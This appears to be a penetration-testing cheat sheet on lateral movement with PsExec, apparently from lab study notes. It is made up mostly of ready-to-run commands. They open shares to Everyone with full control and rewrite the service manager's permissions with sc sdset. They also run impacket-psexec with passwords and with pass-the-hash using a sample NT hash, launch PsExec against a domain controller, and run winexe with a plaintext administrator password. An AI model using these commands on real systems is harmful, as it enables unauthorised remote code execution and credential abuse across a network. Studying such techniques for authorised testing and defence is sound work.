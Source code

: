 # PsExec

### Requirements for PsExec to work

1. User is able to write a file to the share.
2. Create and start a service.

<details>

<summary>Enabling Writable Shares</summary>

* Right-click --> Properties

<img src="../.gitbook/assets/image (97).png" alt="" data-size="original">

* Sharing tab --> Advanced Sharing. Check the `Share this folder` checkbox.

<img src="../.gitbook/assets/image (71).png" alt="" data-size="original">

* Click `Apply` and `ok` for all.

![](<../.gitbook/assets/image (38).png>)

</details>

<details>

<summary>Change permissions of unwritable shared folders</summary>

```sh
cd c:\windows\temp
icacls .
icacls . /grant :r Everyone:F
```

</details>

<details>

<summary>Allows ability to create and start a service</summary>

```sh
sc sdset scmanager "D:(A;;KA;;;AU)(A;;CC;;;AU)(A;;CCLCRPRC;;;IU)(A;;CCLCRPRC;;;SU)(A;;CCLCRPWPRC;;;SY)(A;;KA;;;BA)S:(AU;FA;KA;;;WD)(AU;OIIOFA;GA;;;WD)"
```

</details>

<details>

<summary>Check if able to login using PsExec</summary>

Login PsExec with username and password

```bash
impacket-psexec corp1/sqlsvc@appsrv01
```

* password prompt will appear

</details>

<details>

<summary>PsExec.exe for Lateral Movement</summary>

```bash
psexec_64.exe \\dc02 cmd
```

</details>

<details>

<summary>PTH PsExec (pass-the-hash)</summary>

```bash
impacket-psexec resourced/jack@192.168.231.175 -hashes <lm>:<nt>
```

* From Win 10, Microsoft made the change so LM hashes are not used anymore, but since tools are legacy:

```bash
impacket-psexec resourced/jack@192.168.231.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808
```

</details>

### Using Winexe

```bash
winexe -U Administrator%Welcome1! //10.10.10.72 "cmd.exe"
```

